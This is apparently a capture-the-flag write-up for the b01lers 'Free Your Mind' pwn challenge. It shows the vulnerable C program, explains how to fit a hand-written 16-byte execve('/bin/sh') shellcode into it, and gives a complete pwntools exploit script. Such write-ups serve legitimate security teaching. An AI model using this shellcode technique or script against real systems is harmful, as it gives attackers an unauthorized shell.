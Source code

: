 # Free Your Mind - PWN (200pts)

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door\
. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

## Investigation
This challenge is more a task of avoiding constraints rather than identifying a weakness and exploiting it. From the source code we can see that the binary reads input data, stores it in the array declared as shellcode and then attempts to run this as a function. Assuming we can input a working shellcode to the binary, it should spawn a shell. Since the pointer is provided by the source code, we don't have to worry about ASLR for this challenge.

But there is a problem - The allocated memory for shellcode is only 16 bytes. By using conventional methods such as pwntools shellcraft.sh() or cherrypicking shellcode from shell-storm.org we will end up with too many bytes and our exploit will not work. 

For example, by using `asm(shellcraft.sh())`, we end up with 48 bytes of shellcode. You could potentially MacGyver some short online shellcode with the right pointer, but where is the fun in that?

## Solution

It looks like we will just have to write our own shellcode, which is probably the intended solution by the author as well. It forces us to learn how it works and that makes it a good chall in my opinion.

Let's first understand what we need to do. The code we want to execute is a syscall known as `execve('/bin/sh')`. Since we are coding this in Assembly we need to check the register and value set-up before we start. A good resource on this is https://filippo.io/linux-syscall-table/. Search for execve and double click the entry to expand.

We see that execve() is a syscall that needs RAX to have the value of 59 (0x3b) when you call the system. It then takes three arguments; a filename pointer in RDI, an argv in RSI and env in RDX. We don't really care about the last two.

To explain this in terms of pseudo-Assembly we want to execute `syscall(RAX, RDI, RSI, RDX)`, where `RAX=0x3b`, `RDI=<pointer to '/bin/sh'>`, `RSI=0x0` and `RDX=0x0`.

The static values are easy, we know them now. All we need is the pointer. Open the binary in GDB, run, CTRL+C to interrupt the process and type `find '/bin/sh'`. We know from the source code that there is a pointer in main so we just need to grab it: `0x4011b3`

Now we can stitch together assembly-code. We know that we need the code to be 16 bytes or lower, so let's use the 32-bit registers to make the syscall to shorten down. We can start with the parameters of execve(): `EDI, ESI, EDX`:

`mov edi, 0x4011b3;`, `xor esi, esi;`, `xor edx, edx;`. XORing a register with itself is an effective way of zeroing it out rather than using mov and 0x0.

That's our params set up. Now to make the right syscall - EAX needs to be 0x3b:

`mov eax, 0x3b;` and then make the call to system: `syscall;`.

Stitch it together with pwntools asm():

```py
shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')
```

This translates to `execve('/bin'sh')` You can check the length of the shellcode with a quick python sandbox:
```py
>>> from pwn import *
>>> len(asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall'))
16
```

That should do the trick. Now plop it into a script and run the exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

gdbscript = '''
b *0x0000000000401245
continue
'''.format(**locals())

io = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
#io = gdb.debug('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d',  gdbscript=gdbscript)
#io = remote('chal.ctf.b01lers.com', '1007')

shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')

log.info(f'Shellcode length: {len(shellcode)}')
print(len(asm(shellcraft.sh())))

io.sendlineafter('it.', shellcode)

io.interactive()
```

![](assets/pwned.png)

Remote was down when I wrote this, but exploits works:)
